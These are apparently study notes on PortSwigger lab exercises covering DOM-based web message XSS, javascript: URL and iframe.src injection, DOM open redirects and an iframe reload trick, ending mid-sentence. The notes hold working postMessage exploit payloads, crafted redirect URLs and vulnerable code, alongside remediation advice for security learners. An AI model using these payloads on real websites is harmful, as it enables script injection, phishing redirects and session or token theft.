





# 🧠Lab-1 DOM-Based Web Message Vulnerabilities

---

## 📖 Overview

```txt
A DOM-based web message vulnerability happens when:

Attacker-controlled web message
        ↓
received by page
        ↓
passed into dangerous sink
        ↓
JavaScript executes
```

This is basically:

```txt
postMessage() + unsafe JavaScript handling
```

---

# 🌐 What Is a Web Message?

Modern browsers allow:

```txt
tabs
iframes
popups
windows
```

to communicate with each other using:

```javascript
postMessage()
```

---

# 🧩 Why Browsers Need This

Websites often embed:

```txt
payment popups
login popups
ads
widgets
iframes
external apps
```

Example:

```txt
Main website
    ↓
opens payment popup
    ↓
popup sends:
"payment successful"
```

without reloading page.

---

# 🏦 Real-Life Example

Imagine:

```txt
bank.com
```

opens:

```txt
payment-provider.com
```

popup.

After payment:

```javascript
window.opener.postMessage("paid", "*")
```

Main page receives:

```txt
"paid"
```

and updates UI.

---

# 🛡️ Same-Origin Policy (SOP)

Normally:

```txt
One website cannot directly access another website's data.
```

Example:

```txt
evil.com
```

cannot read:

```txt
gmail.com
```

DOM.

This protection is called:

```txt
Same-Origin Policy
```

---

# ⚠️ But postMessage() Is Special

Browser intentionally allows communication through:

```javascript
postMessage()
```

because websites need it.

But:

```txt
developer must verify sender safely

otherwise attacker can send malicious data
```

---

# 🔄 Basic Web Message Flow

```txt
Page A
   ↓ postMessage()
Page B
   ↓ receives event
event.data contains message
```

---

# 📦 Message Event Object

When page receives message:

```javascript
window.addEventListener("message", function(e){
```

Browser creates:

```txt
e
```

called:

```txt
Event Object
```

---

# 🔑 Important Properties

## 📨 e.data

Actual message.

Example:

```txt
"hello"
```

or:

```html
""
```

---

## 🌍 e.origin

Who sent message.

Example:

```txt
https://trusted-site.com
```

---

# 🎯 Source and Sink

---

## 📥 Source

Attacker-controlled input.

Common source here:

```javascript
e.data
```

because attacker controls message.

---

## 💣 Sink

Dangerous function.

Examples:

```javascript
innerHTML
eval()
document.write()
location=
```

---

# 🚨 Vulnerability Condition

```txt
Attacker controls source
        ↓
website passes into sink unsafely
        ↓
DOM vulnerability
```

---

# ❌ Vulnerable Example

```javascript
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
});
```

---

# ⚠️ Why Vulnerable?

Because:

```javascript
innerHTML
```

parses HTML.

If attacker sends:

```html

```

browser executes JS.

---

# 🧪 Lab Walkthrough — Official Lab

---

## 🎯 Goal

Trigger:

```javascript
print()
```

using web messages.

---

# 🚀 Step 1 — Open Lab

Open lab homepage.

---

# 🔍 Step 2 — Inspect Source

View source or inspect scripts.

You find:

```javascript
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
```

---

# 📸 Screenshot — Vulnerable Source Code

```txt
File: DOM-Based-Web-Message-Vuln-Source.png
```



---

# 🧠 Step 3 — Analyze Vulnerability

## 📥 Source

```javascript
e.data
```

User-controlled web message.

---

## 💣 Sink

```javascript
innerHTML
```

Dangerous HTML sink.

---

# 🌐 Step 4 — Go To Exploit Server

Click:

```txt
Go to exploit server
```

---

# 💥 Step 5 — Paste Payload

Inside BODY:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/"
onload="this.contentWindow.postMessage('','*')">
</iframe>
```

Replace:

```txt
YOUR-LAB-ID
```

with lab URL.

---

# 🔬 Payload Breakdown

---

## 🪟 Part 1 — iframe

```html
<iframe src="https://lab-id.net">
```

Loads vulnerable website.

---

## ⚡ Part 2 — onload

```javascript
onload=""
```

Runs JS after iframe fully loads.

---

## 🧭 Part 3 — contentWindow

```javascript
this.contentWindow
```

Access iframe's browser window.

---

## 📨 Part 4 — postMessage()

```javascript
postMessage(payload, "*")
```

Sends message into iframe page.

---

## ☠️ Part 5 — Payload

```html

```

This becomes:

```javascript
e.data
```

inside vulnerable page.

---

## 💣 Part 6 — innerHTML

Vulnerable page does:

```javascript
innerHTML = e.data
```

Browser creates:

```html

```

inside DOM.

---

## 🚨 Part 7 — Trigger Execution

```javascript
src=1
```

invalid image.

Image loading fails.

Browser triggers:

```javascript
onerror
```

which executes:

```javascript
print()
```

---

## 🌍 Part 8 — *

```txt
"*"
```

means:

```txt
allow all origins
```

No restriction.

---

# 💾 Step 6 — Store Exploit

Click:

```txt
Store
```

---

# 📤 Step 7 — Deliver Exploit

Click:

```txt
Deliver exploit to victim
```

Lab solved.

---

# 🔄 Complete Attack Flow

```txt
Victim opens exploit page
        ↓
Exploit page loads iframe
        ↓
iframe loads vulnerable website
        ↓
onload executes
        ↓
postMessage sends malicious HTML
        ↓
website receives message
        ↓
message stored in e.data
        ↓
innerHTML inserts payload into DOM
        ↓
browser parses malicious HTML
        ↓
onerror executes
        ↓
print() executes
```

---

# 🧠 Mental Model

```txt
Attacker sends malicious message →
website trusts message →
website injects message into HTML →
browser executes JavaScript
```

---

# 📚 Important Concepts

## 📨 postMessage()

Cross-window communication API.

---

## 📩 addEventListener("message")

Receives web messages.

---

## 📦 e.data

Actual message contents.

---

## 🌍 e.origin

Sender origin.

Example:

```txt
https://trusted-site.com
```

---

# ☠️ Common Dangerous Sinks

```javascript
innerHTML
outerHTML
eval()
document.write()
location=
setTimeout()
setInterval()
```

---

# 📥 Common Sources

```javascript
e.data
location.search
location.hash
document.cookie
document.referrer
localStorage
sessionStorage
```

---

# ❗ Why This Happens

Developers trust:

```javascript
e.data
```

without validation.

---

# ✅ Safe Code

```javascript
window.addEventListener("message", function(e){

   if(e.origin !== "https://trusted-site.com"){
      return;
   }

   document.getElementById("ads").innerText = e.data;

});
```

---

# 🛡️ Why innerText Is Safer

```javascript
innerText
```

shows text only.

Does NOT parse HTML.

---

# ❌ Dangerous Version

```javascript
innerHTML
```

parses HTML and executes events.

---

# 🌍 Real-World Impact

Can lead to:

```txt
DOM XSS
session theft
account takeover
phishing
admin compromise
token theft
malware delivery
```

---

# 🎯 High-Value Real Targets

Often found in:

```txt
ad systems
payment popups
OAuth login windows
embedded widgets
customer support chats
analytics dashboards
cross-domain iframes
```

---

# 🚩 Red Flags During Testing

Look for:

```javascript
addEventListener("message")
```

Then check:

```txt
Is origin verified?
Is e.data sanitized?
Is dangerous sink used?
```

---

# 🛠️ Browser DevTools Tip

You can search all JS for:

```javascript
postMessage
```

or:

```javascript
addEventListener("message")
```

inside:

```txt
Sources tab
```

---

# 🔐 Remediation

## 1️⃣ Verify Origin

```javascript
if(e.origin !== "https://trusted-site.com")
   return;
```

---

## 2️⃣ Avoid Dangerous Sinks

Avoid:

```javascript
innerHTML
eval()
document.write()
```

---

## 3️⃣ Sanitize Data

Use safe sanitization libraries.

---

## 4️⃣ Use innerText

Instead of:

```javascript
innerHTML
```

---

# 🏁 Final One-Line Summary

```txt
DOM-based web message vulnerabilities happen when attacker-controlled messages are received through postMessage() and inserted into dangerous JavaScript or HTML sinks without proper validation.
```

---

# 📌Lab-2 DOM XSS using Web Messages + JavaScript URL (Lab Notes)

---

## 🧭 Overview

This lab shows a DOM-based vulnerability where:

- A page listens for messages using `postMessage()`
- It trusts the incoming message too much
- It directly assigns that message into `location.href`

Core issue:
Unsafe web message → unsafe URL redirection → JavaScript execution

---

## 🧠 What is this Topic

This is a DOM-based web message vulnerability.

Key idea:

One page sends a message → another page receives it  
Receiver does NOT properly validate it  
Message is used in a dangerous sink (`location.href`)

Important components:

Source:
```javascript
postMessage()
```

Sink:
```javascript
location.href
```

If URL starts with:
```text
javascript:
```
browser executes code instead of navigating

---

## 🧪 Lab Walkthrough (Step-by-step)

### 🔐 Step 1: Login

```text
wiener:peter
```

---

### 🧾 Step 2: Identify Vulnerable Code (Source Page SS)

🖼️ SS - Source Page (View Source / DevTools)




Vulnerable JavaScript:

```javascript
window.addEventListener('message', function(e) {

    if (
        e.data.indexOf('http:') > -1 ||
        e.data.indexOf('https:') > -1
    ) {
        location.href = e.data;
    }

});
```

---

## ⚠️ Step 3: Weakness

- Only checks substring `http:`
- No full URL validation
- Direct assignment to sink

```javascript
location.href = e.data
```

---

## 🚀 Step 4: Exploit Payload

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/"
onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
</iframe>
```

---

## 🔄 Step 5: Execution Flow

```text
iframe loads page
↓
postMessage sent
↓
message received
↓
validation passes
↓
location.href set
↓
javascript executed
↓
print() runs
```

---

## 🏁 Step 6: Lab Solved

```text
javascript:print() executed in victim context
```

---

## 🌍 Real-World Impact

- ad systems
- payment popups
- iframe widgets
- chat systems

Attackers can:
- XSS execution
- redirects
- script execution

---

## 🎯 High Value Targets

```
/
 /dashboard
 /my-account
 /payment
 /profile
 iframe components
```

---

## 🔗 Attack Chain

```text
iframe → postMessage → listener → weak validation → location.href → javascript: → XSS
```

---

## 🛡️ Remediation

- validate `event.origin`
- allow only trusted domains
- avoid:
```javascript
location.href = userInput
```
- use:
```javascript
startsWith("https://trusted-site.com")
```
- apply CSP

---

## 🧠 FINAL ONE-LINE MEMORY

Unsafe postMessage input is directly assigned to `location.href` without validation, allowing `javascript:` execution and DOM XSS.

---

# 📌Lab-3 DOM XSS using Web Messages + JSON Parsing + iframe.src

---

## 🧭 Overview

This lab demonstrates a DOM-based XSS vulnerability using:

- Web Messages
- JSON parsing
- iframe source manipulation

The vulnerable page:

- listens for incoming `postMessage()` messages
- parses messages using `JSON.parse()`
- checks type using `switch`
- loads attacker-controlled data into `iframe.src`

Because the application:

- does not verify sender origin
- trusts attacker-controlled JSON
- directly uses user-controlled URLs in dangerous sinks

an attacker can execute JavaScript in the victim’s browser.

---

## 🧠 What Is The Topic?

This topic combines several DOM concepts together:

| Concept | Meaning |
|---|---|
| Web Messages | Browser communication between windows/iframes |
| postMessage() | API used to send data between pages |
| JSON.parse() | Converts string → JavaScript object |
| switch statement | Executes functionality based on message type |
| Sink | Dangerous function/property |
| iframe.src | Loads URL/code into iframe |
| javascript: URL | Executes JavaScript instead of webpage |

---

## ⚠️ Core Concept

Application expects messages like:

```json
{
  "type":"load-channel",
  "url":"https://safe-site.com/video"
}
```

Developer intention:

- trusted page sends message
- website loads safe content into iframe

Attacker sends:

```json
{
  "type":"load-channel",
  "url":"javascript:print()"
}
```

Now application loads JavaScript instead of safe content.

---

## 🧩 Important DOM Concepts

### 📥 Source

Attacker-controlled source:

```javascript
e.data
```

because it comes from:

```javascript
postMessage()
```

---

### 🔄 Parsing

Application converts string → object using:

```javascript
JSON.parse(e.data)
```

---

### 🧠 switch()

Application checks:

```javascript
switch(data.type)
```

Example:

| type value | functionality |
|---|---|
| play-video | play video |
| pause-video | pause |
| load-channel | load iframe URL |

---

### ☠️ Sink

Dangerous sink:

```javascript
ACMEplayer.element.src = data.url;
```

Attacker controls:

```javascript
data.url
```

Therefore attacker controls iframe source.

---

## 🧪 Vulnerable Code Breakdown

### 🖼️ SS - View Source (Vulnerable JSON Parsing Code)



Example vulnerable code:

```javascript
window.addEventListener('message', function(e) {

    var data = JSON.parse(e.data);

    switch(data.type) {

        case "load-channel":
            ACMEplayer.element.src = data.url;
            break;
    }

});
```

---

## 🔍 Code Flow Breakdown

### 🧭 Step 1 — Event Listener Waits

```javascript
window.addEventListener('message', ...)
```

Meaning:

```text
Wait for incoming postMessage() data
```

---

### 📩 Step 2 — Message Arrives

Attacker sends:

```javascript
postMessage(...)
```

Browser stores it in:

```javascript
e.data
```

---

### 🔄 Step 3 — JSON Parsing

Application converts:

FROM:

```json
"{\"type\":\"load-channel\"}"
```

TO:

```json
{
  "type":"load-channel"
}
```

---

### 🔀 Step 4 — switch Checks Type

```javascript
switch(data.type)
```

If type equals:

```text
load-channel
```

matching functionality executes.

---

### ☠️ Step 5 — Dangerous Action

```javascript
ACMEplayer.element.src = data.url;
```

Attacker controls:

```javascript
data.url
```

Therefore attacker controls iframe source.

---

## 🧪 Lab Walkthrough (Full Detailed Steps)

### 🌐 Step 1 — Open Lab

Visit lab homepage.

Notice JavaScript contains:

- `addEventListener('message')`
- `JSON.parse()`
- `switch()`
- `iframe.src`

This indicates:

- web message handling
- attacker-controlled sink

---

### 🧠 Step 2 — Understand Expected JSON Structure

Application expects:

```json
{
  "type":"load-channel",
  "url":"SOME_URL"
}
```

---

### 🚀 Step 3 — Go To Exploit Server

Open exploit server.

Create attacker-controlled page.

---

### 💣 Step 4 — Build Exploit iframe

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/"
onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

---

## 🔍 Payload Breakdown

### 🖼️ iframe

```html
<iframe src="victim-site">
```

Loads victim site inside attacker page.

---

### ⚙️ onload

```javascript
onload='...'
```

Runs JavaScript after iframe fully loads.

---

### 🪟 this.contentWindow

Refers to:

```text
actual page/window inside iframe
```

---

### 📨 postMessage()

```javascript
postMessage(message, targetOrigin)
```

Sends data to another page.

---

### 🧾 JSON String

```json
{
  "type":"load-channel",
  "url":"javascript:print()"
}
```

---

### ❓ Why "load-channel"?

Because switch checks:

```javascript
switch(data.type)
```

We must match valid functionality.

---

### ⚠️ Why javascript:print()?

Because:

```text
javascript:
```

tells browser:

```text
execute JavaScript code
```

instead of loading webpage.

---

### 🌍 Why "*" ?

```text
"*"
```

means:

```text
send message regardless of origin
```

---

## 🔄 Browser Execution Flow

### 🧭 Step 1

```text
Attacker page loads victim iframe
```

---

### 🧭 Step 2

```text
Iframe finishes loading
```

---

### 🧭 Step 3

```text
onload executes
```

---

### 🧭 Step 4

```text
postMessage sends malicious JSON
```

---

### 🧭 Step 5

```text
Victim receives message
```

---

### 🧭 Step 6

Application runs:

```javascript
JSON.parse(e.data)
```

---

### 🧭 Step 7

switch matches:

```text
load-channel
```

---

### 🧭 Step 8

Application runs:

```javascript
iframe.src = "javascript:print()"
```

---

### 🧭 Step 9

Browser executes:

```javascript
print()
```

---

## 🚨 Why This Vulnerability Exists

Because application:

- trusts incoming messages
- has no origin verification
- trusts attacker-controlled JSON
- uses attacker-controlled URL in dangerous sink

---

## 🌍 Real-World Scenarios

### 🎥 Embedded Video Players

Loading videos/channels dynamically.

---

### 📢 Advertisement Widgets

Receiving instructions from parent windows.

---

### 💳 Payment Popups

Cross-window communication between payment providers and websites.

---

### 🔐 OAuth/Login Popups

Authentication windows communicating tokens.

---

## 🎯 High-Value Endpoints

Look for:

- iframe communication
- embedded widgets
- video players
- chat systems
- ad systems
- payment systems
- OAuth popups

Search JavaScript for:

```javascript
postMessage
message
JSON.parse
window.addEventListener
iframe.src
location.href
```

---

## 🔗 Multi-Chain Attack Possibilities

| Vulnerability | Result |
|---|---|
| DOM XSS | Full JS execution |
| Open Redirect | Redirect users |
| CSRF | Forced actions |
| Token Theft | Steal JWT/session |
| Clickjacking | UI manipulation |
| OAuth flaws | Account takeover |

---

## 🛡️ Remediation

Verify origin strictly.

BAD:

```javascript
if(origin.indexOf("trusted.com") > -1)
```

GOOD:

```javascript
if(origin === "https://trusted.com")
```

---

Never trust `postMessage` data.

Validate:

- structure
- type
- allowed values

---

Block:

```text
javascript:
```

Allow only:

- `https:`
- safe domains

---

Avoid dangerous sinks:

```javascript
iframe.src
innerHTML
eval()
location.href
```

with attacker-controlled data.

---

## 🧠 Mental Model

```text
Attacker page
    ↓
postMessage(JSON)
    ↓
Victim receives message
    ↓
JSON.parse()
    ↓
switch(type)
    ↓
iframe.src = attacker URL
    ↓
javascript: executes
```

---

## 🧠 Final One-Line Understanding

Attacker sends crafted JSON through `postMessage`, the victim page blindly parses and trusts it, then loads attacker-controlled JavaScript into `iframe.src`, resulting in DOM XSS.

---

# 📌Lab-4 DOM-Based Open Redirection using Regex + location.href

---

## 🧭 Overview

This lab demonstrates:

```text
DOM-Based Open Redirection
```

The vulnerability occurs because:

- JavaScript reads attacker-controlled input from the URL
- extracts an external URL using regex
- redirects browser using `location.href`

This allows attackers to:

- redirect victims to malicious websites
- abuse trusted domains for phishing
- potentially escalate to DOM XSS in some cases

---

## 🧠 What Is This Topic?

DOM-based open redirect happens when:

```text
client-side JavaScript takes attacker-controlled data
and sends it into a redirect sink
```

Common redirect sinks:

```javascript
location
location.href
location.assign()
window.open()
```

Unlike server-side open redirects:

- backend is NOT vulnerable
- browser-side JavaScript IS vulnerable

The redirect happens:

```text
inside victim's browser
after JavaScript executes
```

---

## ⚠️ Core Vulnerability Concept

### 📥 Source

Attacker-controlled source:

```javascript
location
```

Specifically:

```text
?url=
```

---

### ☠️ Sink

Dangerous sink:

```javascript
location.href
```

This tells browser:

```text
Navigate to another page
```

---

## 🧪 Vulnerable Code

### 🖼️ SS - View Source (Redirect URL Extraction Code)



```javascript
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location);

if(returnUrl)
    location.href = returnUrl[1];
else
    location.href = "/"'>
Back to Blog
</a>
```

---

## 🔍 Vulnerable Code Breakdown

### 🧭 Step 1 — User Clicks Link

JavaScript runs only when victim clicks:

```text
Back to Blog
```

because code is inside:

```javascript
onclick=
```

---

### 🌐 Step 2 — Browser Reads Current URL

```javascript
location
```

contains entire current page URL.

Example:

```text
https://lab.net/post?postId=4&url=https://evil.com
```

---

### 🔎 Step 3 — Regex Executes

```javascript
/url=(https?:\/\/.+)/.exec(location)
```

Meaning:

```text
Find url=http:// OR url=https:// inside current URL
```

---

## 🧩 Regex Breakdown

### 🔹 url=

Looks for:

```text
url=
```

inside URL.

---

### 🔹 https?

Means:

```text
http OR https
```

---

### 🔹 :\/\/

Means:

```text
://
```

---

### 🔹 .+

Means:

```text
everything after that
```

---

## 📤 Regex Result

Regex extracts:

```text
https://evil.com
```

---

### 📦 Step 4 — Result Stored in Array

```javascript
returnUrl
```

becomes:

```javascript
[
 "url=https://evil.com",
 "https://evil.com"
]
```

---

## 📚 Array Meaning

| Index | Meaning |
|---|---|
| [0] | full regex match |
| [1] | extracted URL only |

---

### ✅ Step 5 — if(returnUrl)

```javascript
if(returnUrl)
```

means:

```text
If regex found a URL
```

---

### ☠️ Step 6 — Dangerous Redirect

```javascript
location.href = returnUrl[1];
```

Browser executes:

```text
redirect victim to extracted URL
```

---

## 🎯 Final Result

Victim gets redirected:

FROM:

```text
trusted website
```

TO:

```text
attacker-controlled website
```

---

# 🧪 Lab Walkthrough

### 🌐 Step 1 — Open Any Blog Post

Example:

```text
/post?postId=4
```

---

### 🔍 Step 2 — Observe “Back to Blog” Link

Notice:

```text
redirect handled by JavaScript
NOT backend
```

---

### 🎯 Step 3 — Identify Attacker-Controlled Parameter

Page reads:

```text
?url=
```

from current URL.

---

### 💣 Step 4 — Craft Exploit URL

```text
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

---

### 🌍 Step 5 — Open Crafted URL

Paste into browser.

---

### 🖱️ Step 6 — Click “Back to Blog”

Triggers:

- regex extraction
- redirect sink
- browser navigation

---

### 🚨 Step 7 — Browser Redirects

Victim redirected to:

```text
exploit server
```

Lab solved.

---

## 🔄 Execution Flow

```text
Victim visits crafted URL
        ↓
User clicks Back to Blog
        ↓
onclick JavaScript executes
        ↓
Regex extracts attacker URL
        ↓
location.href redirects browser
        ↓
Victim lands on malicious site
```

---

# 🌍 Real-World Scenarios

## 🎣 1. Phishing Attacks

Attacker sends:

```text
https://trusted-bank.com/post?url=https://fake-login.com
```

Victim trusts:

- bank domain
- HTTPS certificate

Then redirected to:

```text
phishing login page
```

---

## 🔐 2. OAuth Redirect Abuse

Manipulate:

```text
returnUrl
redirect_uri
continue
next
```

to steal:

- tokens
- sessions

---

## ☠️ 3. Escalation to DOM XSS

If attacker injects:

```text
javascript:
```

payloads may become:

```text
DOM XSS
```

Example:

```javascript
javascript:alert(1)
```

---

# 🎯 High-Value Endpoints

Look for:

```text
login pages
logout redirects
OAuth flows
payment redirects
returnUrl=
next=
continue=
redirect=
```

---

# 🔗 Multi-Chain Attacks

| Chain | Result |
|---|---|
| Phishing | credential theft |
| OAuth abuse | token theft |
| DOM XSS | JavaScript execution |
| CSRF | forced victim navigation |
| Session fixation | account compromise |

---

# 🧠 Mental Model

```text
Attacker controls URL parameter
        ↓
JavaScript reads parameter
        ↓
Regex extracts external URL
        ↓
location.href redirects browser
        ↓
Victim lands on malicious site
```

---

# 🛡️ Remediation

## ❌ Never Redirect Using Raw User Input

BAD:

```javascript
location.href = userInput
```

---

## ✅ Use Allowlists

GOOD:

```javascript
if(url.startsWith("/"))
```

Allow only:

- internal routes
- same-origin paths

---

## 🔒 Validate Domains Strictly

Allow:

```text
exact domains only
```

Do NOT use:

```javascript
indexOf()
startsWith()
endsWith()
```

for trust decisions.

---

## 📍 Prefer Relative Paths

Safer:

```text
/dashboard
/profile
/settings
```

instead of:

```text
full external URLs
```

---

# 🧠 Final Easy Understanding

DOM-based open redirect happens when browser JavaScript reads attacker-controlled input from the URL and uses it in a redirect sink like `location.href`, allowing attackers to redirect victims to malicious websites.

---

# 🧠Lab-5 DOM XSS via Poisoned Cookie + window.x Loop Prevention

---

## 📝 Overview

This section explains a very important JavaScript trick used inside exploit payloads:

```javascript
if(!window.x)
window.x = 1
```

This is NOT directly a vulnerability.

It is:

- exploit control logic
- loop prevention
- state tracking inside browser

This technique is commonly used in:

- XSS payloads
- iframe attacks
- redirect chains
- exploit automation
- multi-step DOM attacks

---

## 🎯 What Is This Topic?

Sometimes an exploit needs:

1. one page to load first

2. then automatically redirect/load another page

BUT:

changing iframe.src triggers another page load

and each new page load triggers:

```javascript
onload
```

again.

This can accidentally create:

## ⚠️ Infinite Reload Loop

To stop this, attackers/developers use a temporary browser memory variable like:

```javascript
window.x
```

This acts like:

- a flag
- a switch
- a memory marker

---

## 🧠 Core Concept

The exploit uses:

```javascript
if(!window.x)
```

Meaning:

```text
"If x does NOT exist yet"
```

Initially:

```javascript
window.x
```

is:

```javascript
undefined
```

and undefined behaves like:

```text
FALSE
```

So:

```javascript
!window.x
```

becomes:

```text
TRUE
```

This allows code to execute ONLY ONCE.

After execution:

```javascript
window.x = 1
```

Now:

```text
x exists
x behaves like TRUE
```

So future checks fail:

```javascript
!window.x → FALSE
```

and the loop stops.

---

## 🧭 Lab Walkthrough

### 📝 Vulnerable Payload

```html
<iframe src="MALICIOUS_URL"
onload="
if(!window.x)
this.src='https://TARGET-SITE';
window.x=1;
">
```

---

### 🪟 Step 1 — iframe Loads First URL

Browser opens:

```text
MALICIOUS_URL
```

Purpose:

- poison cookie
- trigger redirect
- inject payload
- perform first exploit stage

---

### 🔄 Step 2 — iframe Finishes Loading

When page finishes loading:

```javascript
onload
```

executes.

---

### 🧪 Step 3 — Browser Checks

```javascript
if(!window.x)
```

Initially:

```javascript
window.x = undefined
```

which behaves as FALSE.

So:

```javascript
!undefined
```

becomes:

```text
true
```

Condition passes.

---

### 🌐 Step 4 — Redirect Happens

```javascript
this.src='https://TARGET-SITE'
```

Meaning:

```text
change iframe page
```

iframe now loads:

- homepage
- second-stage target
- XSS trigger page

---

### 🏴 Step 5 — Flag Gets Set

```javascript
window.x = 1
```

Now browser remembers:

```text
